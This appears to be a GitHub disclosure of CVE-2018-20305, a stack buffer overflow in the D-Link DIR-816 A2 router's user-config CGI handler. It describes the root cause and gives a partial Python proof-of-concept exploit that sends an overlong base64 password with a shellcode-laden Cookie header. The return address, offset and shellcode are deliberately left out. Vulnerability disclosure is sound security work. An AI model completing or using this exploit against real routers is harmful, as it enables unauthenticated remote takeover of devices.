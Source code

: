 # D-Link DIR-816 A2 Stack Overflow 
#### Vender & Firmware version ：D-Link 1.10 B05 
#### CVE-ID : CVE-2018-20305
#### Vendor Homepage : http://www.dlink.com.cn/
#### Hardware Link : http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816 
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/DLINK.jpeg)
# Vulnerability Description
Stack-based buffer overflows found on d-link dir-816 A2 1.10 B05 devices allow arbitrary remote code execution without authentication.Embodied in the /goform/form2userconfig.cgi handler function, long password may lead to stack-based buffer overflow and cover the return address.
# Vulnerability Detail

In the route /goform/form2userconfig.cgi handler.The value of the parameter password is base64 decoded, and the result is stored on the stack.
The vendor only sets a password length limit on the front end, but does not check the password length for POST submission.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/IDA.jpg)

There's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GDB.jpg)

Fortunately, the heap is at fixed address with permission rwx. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

After running the poc, we easily get the shell.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GETSHELL.png)

# POC
More details, as the Vendor did not fix, will not be disclosed here.
```python
#!/usr/bin/env python
# POC code reference: https://github.com/PAGalaxyLab/VulInfo/tree/master/D-Link/DIR-816/stack_overflow_1

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]
print 'tokenid is %s' % tokenid

# The return address will be overwritten as newRet 
newRet = '\x00\x00\x00\x00'

#More details, as the manufacturer did not fix, will not be disclosed here.
pBuf=''

pMy= "L"*xx+ newRet

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pBuf= "username=A&oldpass=&newpass="+b64e(pMy)+"&confpass="+'&modify=B&select=s0&hiddenpass=&submit.htm=Send&tokenid=%s'% tokenid

payload = "POST /goform/form2userconfig.cgi " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pBuf)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pBuf

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
